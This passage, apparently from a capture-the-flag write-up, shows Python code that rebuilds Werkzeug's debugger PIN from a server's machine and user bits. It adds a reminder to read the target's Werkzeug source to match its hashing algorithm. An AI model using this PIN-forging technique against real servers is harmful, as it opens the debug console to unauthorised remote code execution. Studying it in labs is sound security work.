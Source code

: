 ```python
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

**Reminder!** We need to change `hashing algorithm` due to algorithm which `Werkzeug` uses. For this, we need to read `/app/venv/lib/python3.10/site-packages/werkzeug/debug/__init__.py` file.

![alt text](img/image-14.png)
